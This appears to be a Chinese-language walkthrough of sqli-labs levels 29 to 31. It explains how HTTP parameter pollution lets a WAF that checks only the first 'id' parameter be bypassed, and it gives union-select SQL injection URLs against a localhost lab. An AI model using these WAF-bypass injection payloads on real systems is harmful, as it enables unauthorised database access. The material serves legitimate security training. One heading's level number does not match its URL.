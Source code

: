 ​    { 

​        $val=substr($value,0,2); 

​        if($val=="id") 

​        { 

​            $id_value=substr($value,3,30); 

​            return $id_value; 

​            break; //不再遍历第二个 

​        } 

​    } 

} 

假如请求地址内容为 login.php?id=12&id=abc 

通过explode函数以&分割，     

var_dump($qs_array);  //索引数组 

array(2) { [0]=> string(5) "id=12" [1]=> string(4) "id=b” } 

所以取得$value 便为id=12 和 id=b 

$var 的值，就是id

然后经过if去判断相等否，相等则return ,然后break ，不会遍历第二个id=b的 value



然后php+apache的组合是获取最后一个参数（相同参数），所以最后一个参数走进了sql语句，而第一个参数交给了waf去过滤（只要保证第一个参数是正常的，就不会处罚waf拦截）

第三个问题，利用场景，的确存在waf的拦截就是根据第一个参数的值来进行过滤的。 





## 第30关

 login.php 

双引号+HPP 

双引号 

http://127.0.0.1/sqli-labs/Less-30/login.php?id=1&id=0"union select 1,database(),3-- - 



## 第32关

login.php 

双引号+括号+HPP 

http://127.0.0.1/sqli-labs/Less-31/login.php?id=1&id=0") union select 1,version(),3-- - 


